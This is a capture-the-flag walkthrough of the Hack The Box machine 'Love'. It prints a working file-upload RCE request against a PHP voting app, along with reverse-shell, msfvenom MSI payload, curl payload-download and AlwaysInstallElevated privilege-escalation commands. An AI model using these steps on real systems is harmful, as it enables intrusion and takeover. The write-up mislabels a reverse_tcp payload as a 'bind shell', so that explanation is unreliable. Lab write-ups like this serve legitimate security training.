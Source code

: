 ```yaml
---
title: Hack The Box&#58; Love
permalink: /HTB/Love
layout: default
---
```

<img src="https://github.com/susMdT/Nigerald/blob/master/assets/images/Love_Big.png?raw=true" unselectable="on" class="Box_Logo" />

Love is an easy level box on HackTheBox and took quite some time for me to solve as it was the second box that I have tried to solve. It was pretty interesting to solve and I learned some new exploit methods that I could try to use later. I utilized an Unauthenticated RCE exploit on the application the website was running to gain a foothold, and then used AlwaysInstallElevated to gain System.

# Walkthrough
First I performed an nmap scan using `nmap -p- <box ip>`. This first identifies the ports in use. You can follow this up with `nmap -sV -sC -A --script=vuln <box ip> -p x,y,z > file.txt` to get a more indepth scan of those running ports and the system itself, but I was too lazy to do that. This second command will also write the results of the scan to a `file.txt` in your current directory so you could reference the scan again later, if necessary. The result of my initial nmap scan showed me that http was running:
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(1).png?raw=true)  
<br />
<br />
Accessing the website I notice that it's titled "Voting System using PHP", so I try to find out if theres an existing exploit for it.
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(2).png?raw=true) 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(3).png?raw=true) 
<br />
<br />
Accessing the exploit-db link shows an exploit that I can use. Based on the title, it's an exploit for unauthenticated remote code execution, meaning that if it works, I can execute code on the web server without needed any sort of credentials. Further explanation on the vulnerability can be found at:  https://www.cybersecurity-help.cz/vdb/SB2021050511. According to this resource, Unauthenticated RCE is achieved through uploading php files that will be run by the server and stored at the `/images/`directory. The exploit is a in the form of a HTTP POST request
```markdown
POST /admin/candidates_add.php HTTP/1.1
Host: 192.168.1.1
Content-Length: 275
Cache-Control: max-age=0
Origin: http://192.168.1.1
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrmynB2CmGO6vwFpO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.1/admin/candidates.php
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="photo"; filename="shell.php"
Content-Type: application/octet-stream

<?php echo exec("whoami"); ?>

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="add"
```

Reading this post request, if I change the php code being used as the payload (near the bottom, between the angle brackets), I could potentially send a php code for a reverse shell. I decided to use  https://www.revshells.com to generate a PHP Ivan Sincek reverse shell under the IP of my machine and port 4444 (personal preference). I copy and pasted the shell generated from the site and replaced the payload. After sending the post request in Burp, I checked to see it worked.
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(5).png?raw=true) 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(7).png?raw=true) 
<br />
<br />
Note that I replaced the red `//` in the burp picture with the Ivan Sincek php code. And we can see that it worked. All we have to do now is set up a listener on port 4444 and click the the link to our php code in the `/images/` directory. I set up a listener by running `nc -nvlp 4444` and then clicking `a.php` gives me:
<br />
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(8).png?raw=true) 
<br />
<br />
Sweet, and we're in a Windows machine. Let's check something simple; is AlwaysInstallElevated on? What this policy does is that, if it's on (we can check the registry), it will install any `.msi` files with SYSTEM level privileges. Running the `REG QUERY HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` will tell us if its enabled.
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(9).png?raw=true) 
<br />
<br />
The 0x1 means that the policy is turned on. It's too lit. To abuse this, we can create a malicious msi file that will give us a bind shell, granting us remote access of the machine. Whereas in a remote shell we open a port on our attacking machine and the victim connects to us, a bind shell will have a port open up on the victim while we connect to it. This sounds complicated, but we can use msfvenom to generate it very easily. Running the command `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your ip> LPORT=<port>-f msi > robux.msi` will create the payload. 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(11).png?raw=true) 
<br />
<br />
We can then set up a http server on our machine that our victim will access to download the file using curl. Run `python3 -m http.server` and `curl <my machine ip>:<port number><path to payload> --output <filename>` on the respective machines. I ran `curl`  in the `\images` so I could just refresh the webpage to see if my payload was uploaded (however you could just use `dir` to check on the reverse shell)
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(12).png?raw=true) 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(14).png?raw=true) 
<br />
<br />
Now lets check if our payload is there.
<br />
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(15).png?raw=true) 
<br />
<br />
Robux op. Before we run this, we have to remember that we're using a bind shell so we have to connect to the listener that will be active once we run our payload. This can be done through metasploit and running the exploit `multi/handler` and setting our respective `LHOST` and `LPORT`.
<br />
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(17).png?raw=true) 
<br />
<br />
Now lets run the msi file on the compromised host (we can just type out the filename and extension if its in our directory, or write the full path). 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(16).png?raw=true) 
<br />
<br />
ggez
-Dylan Tran 9/3/2021
